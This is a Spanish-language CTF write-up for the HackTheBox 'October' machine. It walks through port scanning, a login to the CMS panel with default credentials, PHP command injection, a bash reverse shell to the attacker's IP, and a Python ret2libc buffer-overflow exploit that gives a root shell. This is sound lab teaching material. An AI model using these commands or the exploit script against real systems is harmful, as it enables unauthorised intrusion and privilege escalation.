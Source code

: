 ```yaml
---
title: October | CTF Writeup - HackTheBox
date: 2024-03-20 20:17:00 +/-TTTT
categories: [PENTESTING, CTF]
tags: [writeup, hackthebox, rce, bufferoverflow, ret2libc]
---
```


# October

>Para empezar, haremos un primer escaneo con `nmap` para ver puertos y servicios corriendo en la máquina a atacar.

```bash
> nmap -sS -p- --open -T5 -vvv -Pn -n -oN scan.txt 10.10.10.16

Nmap scan report for 10.10.10.16
Host is up, received user-set (0.29s latency).
Scanned at 2024-03-19 01:40:49 -03 for 457s
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Tue Mar 19 01:48:26 2024 -- 1 IP address (1 host up) scanned in 456.51 seconds
```

>Luego de esto, sigue hacer un escaneo más exhaustivo, verificando las versiones de los servicios que corren en esos puertos. Esto lo haremos con los parámetros `-sCV` de nmap.

```bash
> nmap -sCV -p22,80 -Pn -n -oN versions.txt 10.10.10.16

Nmap scan report for 10.10.10.16
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 79:b1:35:b6:d1:25:12:a3:0c:b5:2e:36:9c:33:26:28 (DSA)
|   2048 16:08:68:51:d1:7b:07:5a:34:66:0d:4c:d0:25:56:f5 (RSA)
|   256 e3:97:a7:92:23:72:bf:1d:09:88:85:b6:6c:17:4e:85 (ECDSA)
|_  256 89:85:90:98:20:bf:03:5d:35:7f:4a:a9:e1:1b:65:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Potentially risky methods: PUT PATCH DELETE
|_http-title: October CMS - Vanilla
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 19 01:49:33 2024 -- 1 IP address (1 host up) scanned in 19.38 seconds
```

>Vemos que es un servidor HTTP el que corre por el puerto 80. Si nos metemos a la web veremos lo siguiente.

![1.png]({%link assets/img/october/1.png%})

>Haciendo una rápida enumeración con la herramienta `gobuster`, encontramos un directorio `backend` que podría llegar a ser crítico. Es un panel para este gestor de contenidos.

```bash
> gobuster dir -u http://10.10.10.16 --add-slash -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html
```

![2.png]({%link assets/img/october/2.png%})

>Efectivamente, es un panel de login para el CMS que en este caso sería October.

![3.png]({%link assets/img/october/3.png%})

>Si probamos credenciales por defecto, como por ejemplo, `admin:admin`, seremos capaces de entrar al panel.

![4.png]({%link assets/img/october/4.png%})

>Modificamos el archivo `default.htm` para inyectar nuestro código. Esto lo haremos utilizando la manera que nos da OctoberCMS para ejecutar código PHP. Para ver más, visitar [este artículo](https://octobercms.com/forum/post/running-php-code-on-pages).

![5.png]({%link assets/img/october/5.png%})

>Colocamos nuestra variable `cmd` en una etiqueta `h1` dentro de la web.

![6.png]({%link assets/img/october/6.png%})

>Nos vamos a la página y ejecutamos cualquier comando. Por ejemplo, ejecutaremos el comando `whoami`.

![7.png]({%link assets/img/october/7.png%})

>Nos ponemos en escucha desde nuestro equipo con `sudo nc -nlvp {nuestroPuerto}`. Luego, en la URL, inyectaremos el comando `bash -c 'bash -i >& /dev/tcp/{nuestraIp}/{nuestroPuerto} 0>&1'`.

![8.png]({%link assets/img/october/8.png%})

>Ya estamos dentro! Ahora enumeramos el sistema buscando por archivos SUID que tengan como usuario `root` para poder escalar privilegios. Esto lo haremos con el comando `find / -user root -perm -4000 2>/dev/null`.

![9.png]({%link assets/img/october/9.png%})

>Vemos un archivo `/usr/local/bin/ovrflw`. Además está el `/usr/bin/pkexec` que se podría explotar con [PwnKit](https://github.com/ly4k/PwnKit), pero no es la finalidad de la máquina. 

>Intentamos leer funciones del binario ejecutable con el comando `strace`. Se está ejecutando una función vulnerable. En este caso, es la función `write`.

![10.png]({%link assets/img/october/10.png%})

>Sabemos que es vulnerable a un Buffer Overflow. Vamos a inspeccionar más a fondo el archivo pasándolo a nuestra máquina. Nos ponemos en escucha desde nuestro lado con `nc -lp 5000 > ovrflw`.

![11.png]({%link assets/img/october/11.png%})

>Antes de hacer algo, checkeamos si tiene el ASLR (Address space layout randomization) habilitado. Esto lo hacemos viendo el descriptor de archivo `/proc/sys/kernel/randomize_va_space`.

![12.png]({%link assets/img/october/12.png%})

>Como vale 2, esto quiere decir que está habilitado y las direcciones de memoria de los DLL y demás serán aleatorizadas. Además, si nos fijamos en el ejecutable con la herramienta `gdb`, tiene el bit NX flageado.

![13.png]({%link assets/img/october/13.png%})

>Esto marca una página de la memoria virtual del binario (una página tiene un tamaño de 4kb, generalmente) en donde sólo se puede leer datos, más no se pueden ejecutar. Por ende, cuando intentemos inyectar nuestro shellcode, este no se ejecutará porque este bit esta habilitado.
>
>Para combatir esta prevención de ejecución, estaremos encarando el Buffer Overflow con el fin de llegar a hacer la técnica `ret2libc`: la misma consiste en reescribir el Instruction Pointer (EIP) para que apunte a la `syscall` system() de la librería libc, ejecutando lo que sea que queramos ejecutar. En este caso, como el binario es SUID y su propietario es root, queremos ganar una consola, por lo que queremos llegar a que se ejecute algo del estilo `system("/bin/sh")`. 
>
>Para ello, se debe pasar al EIP la dirección de la función system, seguido de la dirección de retorno, mas la dirección del string `"/bin/sh"` que vive dentro de libc.

>El EIP nos debería quedar de la siguiente forma: EIP = &system + &exit + '/bin/sh', donde el & indica que es una dirección de memoria.

>Primeramente, antes de ingeniar todo esto, calculemos el offset para llegar al EIP. Con la herramienta `peda` haremos un `pattern create 300` y se lo pasaremos al programa.

![14.png]({%link assets/img/october/14.png%})

>Nos fijamos el offset del EIP con `pattern offset $eip`.

![15.png]({%link assets/img/october/15.png%})

>Ahora bien, teniendo esta información, debemos buscar la dirección en memoria de libc. Pero como se encuentra aleatorizada por el ASLR, tendremos que elegir una dirección de memoria en específico. 

![16.png]({%link assets/img/october/16.png%})

>Con `ldd` podemos ver los DLLs utilizados por el binario. La dirección de memoria de libc en este caso es `0xb758d000`, pero si ejecutamos otra vez el mismo comando, cambiará a otra dirección. Si ejecutamos varias veces, puede que aparezca la misma dirección más de una vez. Usaremos esto a nuestra ventaja para ejecutar el binario varias veces hasta que aparezca la dirección de memoria que hayamos elegido.

>Nos fijamos la dirección de system y de exit.

![17.png]({%link assets/img/october/17.png%})

>Ahora buscamos la dirección de memoria del string "/bin/sh" en libc con `strings`.

![18.png]({%link assets/img/october/18.png%})

>Listo! tenemos 3 direcciones de memoria base (no aleatorizadas) para poder trabajar.

* `System()`: 0x00040310
* `Exit()`: 0x00033260
* `/bin/sh`: 0x00162BAC

>Ahora elegimos una de las direcciones aleatorizadas que haya salido cuando ejecutamos `ldd ovrflw`. Por ejemplo, elegimos la dirección 0xB75DF000. Ahora debemos sumarle a las 3 direcciones que encontramos, esta dirección que elegimos.

* `System()` (Aleatorizado): 0x00040310 + 0xB75DF000
* `Exit()` (Aleatorizado): 0x00033260 + 0xB75DF000
* `/bin/sh` (Aleatorizado): 0x00162BAC + 0xB75DF000

>Procedemos a hacer nuestro script en python para poder explotar este Buffer Overflow.

```python
#!/usr/bin/env python3

from struct import pack
import subprocess

padding = b"A"*112
address_of_libc=0xb75df000
#Base addresses without randomization
exit_addr_off=0x00033260
system_addr_off=0x00040310
binsh_addr_off=0x00162bac

#Addresses with the randomization by adding the offset of libc
system_addr=pack("<I", system_addr_off + address_of_libc)
exit_addr=pack("<I", exit_addr_off + address_of_libc)
binsh_addr=pack("<I", binsh_addr_off + address_of_libc)

payload = padding + system_addr + exit_addr + binsh_addr

while True:
    output = subprocess.call(["/usr/local/bin/ovrflw", payload])
```

>De esta manera, ganamos una `/bin/sh` como root.

![19.png]({%link assets/img/october/19.png%})

